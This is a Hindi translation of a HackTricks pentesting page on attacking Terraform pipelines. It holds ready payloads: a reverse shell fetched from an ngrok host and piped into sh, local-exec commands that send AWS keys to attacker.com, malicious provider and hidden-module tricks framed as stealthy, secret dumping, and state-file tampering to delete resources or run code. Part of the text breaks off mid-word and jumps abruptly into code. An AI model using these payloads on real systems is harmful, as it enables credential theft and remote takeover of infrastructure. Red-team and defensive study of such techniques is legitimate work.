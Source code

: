 # टेर्राफॉर्म सुरक्षा

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मेरा** ट्विटर 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## मौलिक जानकारी

[दस्तावेज़ से:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform एक **इंफ्रास्ट्रक्चर के रूप में कोड उपकरण** है जो आपको मानव-पठनीय कॉन्फ़िगरेशन फ़ाइलों में **क्लाउड और ऑन-प्रेम संसाधनों** को परिभाषित करने देता है जिन्हें आप संस्करण, पुनः उपयोग और साझा कर सकते हैं। फिर आप एक संरचित वर्कफ़्लो का उपयोग करके अपने सभी इंफ्रास्ट्रक्चर को प्रावधान और प्रबंधित कर सकते हैं। टेर्राफॉर्म निम्न स्तरीय घटकों को प्रबंधित कर सकता है जैसे कंप्यूट, स्टोरेज, और नेटवर्किंग संसाधन, साथ ही DNS एंट्रीज और SaaS सुविधाएं जैसे उच्च स्तरीय घटक।

### टेर्राफॉर्म कैसे काम करता है?

टेर्राफॉर्म बादल प्लेटफ़ॉर्मों और अन्य सेवाओं पर संसाधन बनाता और प्रबंधित करता है उनके एप्लिकेशन प्रोग्रामिंग इंटरफेस (APIs) के माध्यम से। प्रदाताएं टेर्राफॉर्म को किसी भी प्लेटफ़ॉर्म या सेवा के साथ काम करने की संभावना देती हैं जिसमें एक पहुंचने योग्य API हो।

![](<../.gitbook/assets/image (33).png>)

HashiCorp और टेर्राफॉर्म समुदाय ने पहले से ही **1700 से अधिक प्रदाताओं** को लिखा है जो हजारों विभिन्न प्रकार के संसाधनों और सेवाओं को प्रबंधित करने के लिए हैं, और यह संख्या बढ़ती जा रही है। आप सभी सार्वजनिक उपलब्ध प्रदाताओं को [टेर्राफॉर्म रजिस्ट्री](https://registry.terraform.io/) पर पा सकते हैं, जिसमें अमेज़न वेब सेवाएं (AWS), एज़्यूर, गूगल क्लाउड प्लेटफ़ॉर्म (GCP), कुबरनेटीज़, हेल्म, गिटहब, स्प्लंक, डेटाडॉग, और बहुत कुछ शामिल हैं।

मूल टेर्राफॉर्म वर्कफ़्लो तीन चरणों से मिलकर बनता है:

* **लिखें:** आप संसाधनों को परिभाषित करते हैं, जो कि कई क्लाउड प्रदाताओं और सेवाओं पर हो सकते हैं। उदाहरण के लिए, आप एक एप्लिकेशन को वर्चुअल मशीनों पर एक वर्चुअल प्राइवेट क्लाउड (VPC) नेटवर्क में सुरक्षा समूहों और एक लोड बैलेंसर डिप्लॉय करने के लिए एक कॉन्फ़िगरेशन बना सकते हैं।
* **योजना:** टेर्राफॉर्म एक निष्पादन योजना बनाता है जो आपकी मौजूदा इंफ्रास्ट्रक्चर और आपकी कॉन्फ़िगरेशन पर आधारित होकर उस इंफ्रास्ट्रक्चर को बनाएगा, अपडेट करेगा, या नष्ट करेगा।
* **लागू करें:** मंजूरी पर, टेर्राफॉर्म सही क्रम में प्रस्तावित आपरेशन करेगा, किसी भी संसाधन आवश्यकताओं का सम्मान करते हुए। उदाहरण के लिए, यदि आप एक VPC की गुणवत्ता को अपड
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### एक कस्टम प्रदाता का उपयोग

एक हमलाविमानकर्ता एक [कस्टम प्रदाता](https://learn.hashicorp.com/tutorials/terraform/provider-setup) को [टेर्राफॉर्म रजिस्ट्री](https://registry.terraform.io/) पर भेज सकता है और फिर इसे टेर्राफॉर्म कोड में जोड़ सकता है एक फीचर ब्रांच में ([यहाँ से उदाहरण](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
प्रदाता `init` में डाउनलोड किया जाता है और जब `plan` कार्यान्वित होता है, तो दुर्भाग्यपूर्ण कोड चलाया जाएगा।

आप एक उदाहरण [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) में पा सकते हैं।

#### एक बाहरी संदर्भ का उपयोग करें

उल्लिखित विकल्प दोनों उपयोगी हैं लेकिन बहुत गुप्त (दूसरा पहले से अधिक गुप्त है लेकिन पहले से अधिक जटिल है)। आप इस हमला भी एक **और गुप्त तरीके से** कर सकते हैं, इन सुझावों का पालन करके:

* टेराफ़ॉर्म फ़ाइल में रेव शैल निर्देशित रूप से जोड़ने की बजाय, आप एक बाहरी संसाधन **लोड** कर सकते हैं जिसमें रेव शैल है:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
आप [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) में rev shell कोड पा सकते हैं।

* बाहरी संसाधन में, **ref** फीचर का उपयोग करें ताकि **रेपो के भीतर एक शाखा में terraform rev shell कोड छुपा** जा सके, कुछ इस प्रकार: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply को लागू करने के लिए निष्पादित किया जाएगा, आप इसका दुरुपयोग करके RCE प्राप्त कर सकते हैं **local-exec** के साथ एक दुर्भाग्यपूर्ण Terraform फ़ाइल डालकर**।**\
आपको सिर्फ यह सुनिश्चित करना होगा कि कुछ पेलोड जैसे निम्नलिखित एक फ़ाइल में समाप्त होते हैं:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
अगली तकनीक से सुझावों का पालन करें और इस हमले को बाहरी संदर्भों का उपयोग करके **एक गुप्त तरीके से** करें।

## रहस्य डंप

आप टेराफ़ॉर्म द्वारा उपयोग किए जाने वाले **गुप्त मूल्यों को डंप कर सकते हैं** `terraform apply` चलाकर टेराफ़ॉर्म फ़ाइल में कुछ जोड़कर:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Terraform स्थिति फ़ाइलों का दुरुपयोग

यदि आपके पास टेराफ़ॉर्म स्थिति फ़ाइलों पर लेखन अधिकार है लेकिन आप टेराफ़ॉर्म कोड नहीं बदल सकते हैं, [**यह शोध**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) कुछ दिलचस्प विकल्प देता है जिनका फ़ाइल से लाभ उठाया जा सकता है:

### संसाधनों को हटाना <a href="#deleting-resources" id="deleting-resources"></a>

संसाधनों को नष्ट करने के 2 तरीके हैं:

1. **स्थिति फ़ाइल में एक संसाधन डालें जिसका नाम यादृच्छिक हो और वास्तविक संसाधन की ओर पोइंट करें जिसे नष्ट करना है**

क्योंकि टेराफ़ॉर्म देखेगा कि संसाधन मौजूद नहीं होना चाहिए, इसे नष्ट कर देगा (वास्तविक संसाधन ID का पालन करते हुए)। पिछले पृष्ठ से उदाहरण:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **संसाधन को ऐसे संशोधित करें जिसे अपडेट करना संभव नहीं हो (ताकि इसे हटा दिया जाए और पुनः बनाया जाए)**

एक EC2 इंस्टेंस के लिए, इंस्टेंस के प्रकार को संशोधित करना काफी है ताकि टेराफ़ॉर्म उसे हटा दें और पुनः बनाएं।

### RCE

एक कस्टम प्रोवाइडर [बनाना संभव है](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) और टेराफ़ॉर्म स्टेट फ़ाइल में एक प्रोवाइडर को दुर्भाग्यपूर्ण बनाने के लिए उसे खुद का या एक खाली संसाधन के साथ दुर्भाग्यपूर्ण प्रोवाइडर को जोड़ना भी संभव है। मूल अनुसंधान से उदाहरण:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## मंजूरी उपकरण

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec आपके टेर्राफॉर्म कोड का स्थैतिक विश्लेषण करता है ताकि संभावित गलतियों को पता लगा सके।
* [**terascan**](https://github.com/tenable/terrascan): Terrascan एक स्थैतिक कोड विश्लेषक है इंफ्रास्ट्रक्चर एस कोड के लिए।

## संदर्भ

* [अटलांटिस सुरक्षा](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PRs सबमिट करके।

</details>

